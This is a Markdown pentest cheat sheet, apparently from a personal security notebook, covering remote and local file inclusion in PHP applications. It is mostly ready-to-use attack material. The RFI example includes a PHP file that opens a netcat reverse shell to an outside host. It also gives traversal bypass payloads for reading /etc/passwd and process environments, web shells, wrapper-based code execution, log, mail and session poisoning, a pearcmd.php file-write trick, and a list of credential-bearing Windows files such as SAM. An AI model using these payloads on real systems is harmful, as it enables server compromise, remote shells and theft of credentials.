

Unlike [Path Traversal](Path%20Traversal.md) that simply display the contents of a file, file inclusion vulnerabilities allow an attacker to include a file into the application’s running code. In order to actually exploit a file inclusion vulnerability, we must be able to not only execute code, but also to write our shell payload somewhere.

## RFI (Remote File Inclusion)

>[!info]
>Remote file inclusions (RFI) occur when a file is loaded from an external source.

RFI example:

```
http://victim/vuln/vulnerabilities/fi/?page=http://20.0.0.2/shell.txt
```

shell.txt:

```php
<?php
shell_exec('nc 20.0.0.2 8888 -e /bin/sh');
?>
```

---

## LFI (Local File Inclusion)

>[!info]
>Local file inclusions (LFI) occur when the included file is loaded from the same web server.

### Basic LFI and bypasses

```bash
# Basic LFI
http://example.com/index.php?page=../../../etc/passwd

# Bypasses
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

# Null byte 
http://example.com/index.php?page=../../../etc/passwd%00	# Solved since PHP 5.4

## Encoding
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00

# From existing folders
http://example.com/index.php?page=utils/scripts/../../../../../etc/passwd

# Path truncation
## Bypass the append of more chars at the end of the provided string (bypass of: $_GET['param']."php")
## In PHP: /etc/passwd = /etc//passwd = /etc/./passwd = /etc/passwd/ = /etc/passwd/.
## Check if last 6 chars are passwd --> passwd/
## Check if last 4 chars are ".php" --> shellcode.php/.
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd..\.\.\.\.\.\.\.\.\.\.\[ADD MORE]\.\.
http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.

#With the next options, by trial and error, you have to discover how many "../" are needed to delete the appended string but not "/etc/passwd" (near 2027)

http://example.com/index.php?page=a/./.[ADD MORE]/etc/passwd
http://example.com/index.php?page=a/../../../../[ADD MORE]../../../../../etc/passwd

## Filter bypass tricks
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
Maintain the initial path: http://example.com/index.php?page=/var/www/../../etc/passwd
``` 
- [Evading Restrictions](Evading%20Restrictions.md)
- [Zip slip](Insecure%20File%20Upload.md#Zip%20slip)


### Using /proc/self/ to enumerate the process

```bash
http://10.11.0.22/menu.php?file=../../../../../../proc/self/cmdline      # Cmd line used to execute the process
http://10.11.0.22/menu.php?file=../../../../../../proc/self/environ      # Enviroment variables for the current process
http://10.11.0.22/menu.php?file=../../../../../../proc/self/cwd          # Current working directory for the current process
```

### PHP wrappers and filters

[PHP wrappers](https://www.php.net/manual/en/wrappers.php) are meta-protocols used by the language to process info other than the HTTP protocol. They could be useful to bypass a whitelist defense in XPath - LFI/RFI exploitation.

| PHP Wrapper | Utilizzo                                                                                                                |
| ----------- | ----------------------------------------------------------------------------------------------------------------------- |
| file://     | Accesso a risorse locali del filesystem                                                                                 |
| http://     | Accesso a risorse HTTP                                                                                                  |
| ftp://      | Accesso a risorse FTP                                                                                                   |
| php://      | Accesso a strem I/O in PHP                                                                                              |
| zlib://     | Accesso a risorse compresse                                                                                             |
| data://     | Accesso a stream di vario tipo (base64, …)                                                                              |
| glob://     | Lettura di directory tramite utilizzo di pattern                                                                        |
| phar://     | Accesso ad archivi PHP                                                                                                  |
| ssh2://     | Accesso a risorse tramite SSH2                                                                                          |
| rar://      | Accesso a risorse compresse in RAR                                                                                      |
| ogg://      | Accesso a risorse audio di questo tipo                                                                                  |
| expect://   | Accesso a processi stdio, stdout e stderr via PTY. Consente l’esecuzione di comandi di sistema. Non abilitato di defult |

```bash
# file:// wrapper
http://10.11.0.22/menu.php?file=data:text/plain,hello world

# php:// + filter
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

# zip:// wrapper
## Upload a zip file with a PHP shell inside
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php

# data:// wrapper
http://example.net/?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>
http://example.net/?page=data://text/plain,<?php phpinfo(); ?>
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"

# expect:// wrapper
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls

# input:// wrapper
## Specify your payload in the POST parameters
http://example.com/index.php?page=php://input
POST DATA: <?php system('id'); ?>
```



Other potential exploitation vectors using filters are mentioned in:
- [Introducing Lightyear, a New Way to Dump PHP Files](../../Readwise/Articles/Charles%20Fol%20-%20Introducing%20Lightyear,%20a%20New%20Way%20to%20Dump%20PHP%20Files.md#Introducing%20Lightyear,%20a%20New%20Way%20to%20Dump%20PHP%20Files)
- [Introducing wrapwrap: using PHP filters to wrap a file with a prefix and suffix](https://blog.lexfo.fr/wrapwrap-php-filters-suffix.html)
#### LFI2RCE using basic wrappers

```php
http://10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

#### LFI2RCE using PHP filters chain

>[!tldr]
>LFI2RCE using wrappers without including any file [^1]

[^1]: https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d

Original research: https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html
PHP filter chain generator: https://github.com/synacktiv/php_filter_chain_generator

```bash
$ python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>  '
[+] The following gadget chain will generate the following code : <?php phpinfo(); ?>   (base64 value: PD9waHAgcGhwaW5mbygpOyA/PiAg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp

$ php -r "echo file_get_contents('php://filter/convert.iconv....');"
<?php phpinfo(); ?>  �@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�@C������>==�
```

#### SQL Injection → LFI → RCE

Reference: https://infosecwriteups.com/sql-injection-to-lfi-to-rce-536bed29a862

1. File at https://customer.com/php/load.php
```php
Warning: include (/php/.php) failed to open stream: no such file
...
```

2. Fuzzing parameters a MySQL error it thrown when `page=` is passed to the file. The parameter results vulnerable to [SQL Injection](SQL%20Injection.md) and the payload returned the contents of `analytics.php`: `https://customer.com/php/load.php?page=’ or ‘’=’`
3. UNION BASED SQL Injection (with MOD security bypass) revealing some parameters were used to include some files: `https://customer.com/php/load.php?page=’ /*!50000union*/ select 1,2,3,4,5,6,7,8,9-- -`
4. Using PHP wrappers to include arbitrary files: `https://customer.com/php/load.php?page=’ /*!50000union*/ select 1,2,3,4,5,’../index’,7,8,’php://filter/convert.base64-encode/resource=.’ -- -`
5. [Remote Code Execution (RCE)](Remote%20Code%20Execution%20(RCE).md) using PHP wrappers: `https://customer.com/php/load.php?page=' /*!50000union*/ select 1,2,3,4,5,6,7,8,’data://text/plain,<?php $a=”sy”;$b=”stem”;$c=$a.$b; $c(“uname -a”);?>’ -- -`


### Contaminating Log Files - from LFI to RCE

It is possible to **contaminate various service's log** in order to **cause them to contain PHP code**, which once included will be execute.

#### Apache log file

Inject the payload within Apache logs (`/var/log/apache2/access.log`):

```bash
root@kali:# nc -nv 192.168.1.66 80
(UNKNOWN) [192.168.1.66] 80 (http) open
<?php echo shell_exec($_GET['cmd']); ?>

HTTP/1.1 400 Bad Request
```

Note that **if you use double quotes** for the shell instead of **simple quotes**, the double quotes will be modified for the string "***quote;***", **PHP will throw an error** there and **nothing else will be executed**.

Final payload to include the shell:

```bash
http://192.168.1.66/funcion.php?name=a&comment=b&cmd=ipconfig&VULN=../../../../../../../xampp/apache/logs/access.log%00
```

#### Via Email

Send a mail to a internal account (user@localhost) containing

```php
<?php echo system($_REQUEST["cmd"]); ?>
```

and access to the mail

```bash
/var/mail/USER&cmd=whoami
```

#### Via `/proc/*/fd/*`

1. Upload a lot of shells (for example : 100)
2. Include

```bash
http://example.com/index.php?page=/proc/$PID/fd/$FD
```

with `$PID` = PID of the process (can be brute forced) and `$FD` the file descriptor (can be brute forced too)

You can use `/proc/sys/kernel/ns_last_pid` to find the last PID opened.

#### Via `/proc/self/environ`

Like a log file, send the payload in the User-Agent, it will be reflected inside the `/proc/self/environ` file.

```php
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

#### Via PHP sessions

In PHP these sessions are stored into `/var/lib/php5/sess_[PHPSESSID]` files.

```php
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";

# Set the cookie to <?php system('cat /etc/passwd');?>
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php

# Use the LFI to include the PHP session file
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm2
```

#### Via vsftpd logs

The logs of this FTP server are stored in `/var/log/vsftpd.log`. If you have a LFI and can access a exposed vsftpd server, you could try to login setting the PHP payload in the username and then access the logs using the LFI.

### LFI2RCE using `pearcmd.php` without file upload [^pearcmd]

[^pearcmd]: [Clever use of `pearcmd.php`](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp)

Sometimes LFI can still be upgraded to RCE even if logs are not accessible and file upload is not allowed, thanks to `pearcmd.php`. 

>[!info]
>pecl is a command line tool used in PHP to manage extensions, and pear is a class library that pecl depends on. In 7.3 and before, pecl/pear is installed by default; in 7.4 and after, we need to specify it when compiling PHP to `--with-pear`install it. However, in any version of Docker image, pcel/pear will be installed by default, and the installation path is `/usr/local/lib/php`.

Assuming `file` is the parameter vulnerable to LFI, we can generate a valid PHP file to be included later using the method below:
```http
GET /index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/hello.php HTTP/1.1
Host: 192.168.1.162:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
```

By sending this packet, the target will write a file `/tmp/hello.php`containing `<?=phpinfo()?>` [^video]

[^video]: [Website Vulnerabilities to Fully Hacked Server](https://www.youtube.com/watch?v=yq2rq50IMSQ&ab_channel=JohnHammond)

### Blind LFI

Blind lfi are vulnerabilities that occur when you have an arbitrary file read primitive, but the contents of that file are not shown in the output.

```php
# Blind file read
file_get_contents($_REQUEST['file']);
getimagesize($_GET['file']);
```

These vulnerabilities however can be exploited using some specific tools and techniques:
- [Charles Fol - Introducing Lightyear, a New Way to Dump PHP Files](../../Readwise/Articles/Charles%20Fol%20-%20Introducing%20Lightyear,%20a%20New%20Way%20to%20Dump%20PHP%20Files.md)
- [php_filter_chains_oracle_exploit](https://github.com/synacktiv/php_filter_chains_oracle_exploit) [^2]

---

## Common directories for Path Traversal

Windows:

```
C:\boot.ini
c:\windows\system32\drivers\etc\hosts
C:\WINDOWS\system32\win.ini
C:\Windows\system.ini

C:\Apache\conf\httpd.conf
C:\Apache\logs\access.log
C:\Apache\logs\error.log
C:\Apache2\conf\httpd.conf
C:\Apache2\logs\access.log
C:\Apache2\logs\error.log
C:\Apache22\conf\httpd.conf
C:\Apache22\logs\access.log
C:\Apache22\logs\error.log
C:\Apache24\conf\httpd.conf
C:\Apache24\logs\access.log
C:\Apache24\logs\error.log
C:\Documents and Settings\Administrator\NTUser.dat
C:\php\php.ini
C:\php4\php.ini
C:\php5\php.ini
C:\php7\php.ini
C:\Program Files (x86)\Apache Group\Apache\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache\logs\access.log
C:\Program Files (x86)\Apache Group\Apache\logs\error.log
C:\Program Files (x86)\Apache Group\Apache2\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache2\logs\access.log
C:\Program Files (x86)\Apache Group\Apache2\logs\error.log
c:\Program Files (x86)\php\php.ini"
C:\Program Files\Apache Group\Apache\conf\httpd.conf
C:\Program Files\Apache Group\Apache\conf\logs\access.log
C:\Program Files\Apache Group\Apache\conf\logs\error.log
C:\Program Files\Apache Group\Apache2\conf\httpd.conf
C:\Program Files\Apache Group\Apache2\conf\logs\access.log
C:\Program Files\Apache Group\Apache2\conf\logs\error.log
C:\Program Files\FileZilla Server\FileZilla Server.xml
C:\Program Files\MySQL\my.cnf
C:\Program Files\MySQL\my.ini
C:\Program Files\MySQL\MySQL Server 5.0\my.cnf
C:\Program Files\MySQL\MySQL Server 5.0\my.ini
C:\Program Files\MySQL\MySQL Server 5.1\my.cnf
C:\Program Files\MySQL\MySQL Server 5.1\my.ini
C:\Program Files\MySQL\MySQL Server 5.5\my.cnf
C:\Program Files\MySQL\MySQL Server 5.5\my.ini
C:\Program Files\MySQL\MySQL Server 5.6\my.cnf
C:\Program Files\MySQL\MySQL Server 5.6\my.ini
C:\Program Files\MySQL\MySQL Server 5.7\my.cnf
C:\Program Files\MySQL\MySQL Server 5.7\my.ini
C:\Program Files\php\php.ini
C:\Users\Administrator\NTUser.dat
C:\Windows\debug\NetSetup.LOG
C:\Windows\Panther\Unattend\Unattended.xml
C:\Windows\Panther\Unattended.xml
C:\Windows\php.ini
C:\Windows\repair\SAM
C:\Windows\repair\system
C:\Windows\System32\config\AppEvent.evt
C:\Windows\System32\config\RegBack\SAM
C:\Windows\System32\config\RegBack\system
C:\Windows\System32\config\SAM
C:\Windows\System32\config\SecEvent.evt
C:\Windows\System32\config\SysEvent.evt
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\drivers\etc\hosts
C:\Windows\System32\winevt\Logs\Application.evtx
C:\Windows\System32\winevt\Logs\Security.evtx
C:\Windows\System32\winevt\Logs\System.evtx
C:\Windows\win.ini 
C:\xampp\apache\conf\extra\httpd-xampp.conf
C:\xampp\apache\conf\httpd.conf
C:\xampp\apache\logs\access.log
C:\xampp\apache\logs\error.log
C:\xampp\FileZillaFTP\FileZilla Server.xml
C:\xampp\MercuryMail\MERCURY.INI
C:\xampp\mysql\bin\my.ini
C:\xampp\php\php.ini
C:\xampp\security\webdav.htpasswd
C:\xampp\sendmail\sendmail.ini
C:\xampp\tomcat\conf\server.xml
```

More windows files: [wfuzz/dirTraversal-win.txt at master · xmendez/wfuzz](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-win.txt)

Unix:

```
/etc/passwd
/etc/hosts
```

More Unix files: [wfuzz/dirTraversal-nix.txt at master · xmendez/wfuzz](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-nix.txt)

---

## Tools for LFI and RFI

- `/usr/share/webshells`
- [liffy.py](https://github.com/hvqzao/liffy)
- [Weevely](https://github.com/epinna/weevely3)
- [lightyear](../../Readwise/Articles/Charles%20Fol%20-%20Introducing%20Lightyear,%20a%20New%20Way%20to%20Dump%20PHP%20Files.md)
- [wrapwrap](https://github.com/ambionics/wrapwrap)
- https://github.com/synacktiv/php_filter_chain_generator

[^2]: [PHP FIlter Chains: File Read From Error-based oracle](https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle); www.synacktiv.com
